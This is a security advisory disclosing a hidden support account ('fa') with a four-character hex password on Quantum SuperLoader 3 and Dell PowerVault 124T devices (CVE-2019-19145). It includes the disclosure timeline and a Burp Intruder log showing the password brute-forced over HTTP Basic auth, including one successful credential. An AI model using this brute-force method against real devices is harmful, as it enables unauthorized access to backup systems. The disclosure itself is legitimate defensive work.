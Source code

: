 # Quantum SuperLoader - Backdoor Support Account Access


## Vendors

* Quantum Corporation
* Dell Inc.

## Affected Products

* Quantum SuperLoader 3 (V94.0 005E.0h)
* Dell PowerVault 124T

Other products and versions may also be affected.

## Summary

The Quantum SuperLoader 3 and Dell PowerVault 124T devices can be accessed using a backdoor support account ("fa") that
has a four-character password. The password can be provided by vendor support and is based on a five-digit challenge
code displayed in the telnet banner, HTTP authentication realm, and front panel. This four-character password 
consists of lower case hexadecimal and can be brute forced or derived based on the challenge algorithm.

This issue may affect a wider range of products and firmware versions.


## Mitigation

* No mitigations are known at this time.


## Credit

These issues were found by Stephen Breen and HD Moore of Atredis Partners


## References

 * CVE-2019-19145
 * https://www.dell.com/community/PowerVault/PowerVault-124T-Username-Password/td-p/3004075

## Report Timeline

2019-08-22: Atredis Partners provided a copy of this advisory by email to Quantum Corporation and Dell Inc.
2019-09-10: Quantum confirmed that this support account is undocumented, but may be widely known.
2019-10-08: Atredis Partners provided a copy of this advisory to CERT/CC.
2019-11-05: Dell confirmed that the only affected Dell product is the PowerVault 124T.
2019-11-21: Atredis Partners published this advisory.


## Technical Details

The backdoor support password can be guessed using a maximum of 65,536 requests to the web interface. The password range consists of "0000" to "ffff" (0001, 0002, etc).

An example session using Burp Intruder is shown below:

```
Request,Payload,Status,Error,Timeout,Length,Comment
336,ZmE6ZjQxMA==,200,false,false,25911,
1,ZmE6MDAwMA==,401,false,false,129,
3,ZmE6MjAwMA==,401,false,false,129,
2,ZmE6MTAwMA==,401,false,false,129,
4,ZmE6MzAwMA==,401,false,false,129,
5,ZmE6NDAwMA==,401,false,false,129,
6,ZmE6NTAwMA==,401,false,false,129,
7,ZmE6NjAwMA==,401,false,false,129,
8,ZmE6NzAwMA==,401,false,false,129,
9,ZmE6ODAwMA==,401,false,false,129,
10,ZmE6OTAwMA==,401,false,false,129,
11,ZmE6YTAwMA==,401,false,false,129,
12,ZmE6YjAwMA==,401,false,false,129,
13,ZmE6YzAwMA==,401,false,false,129,
```
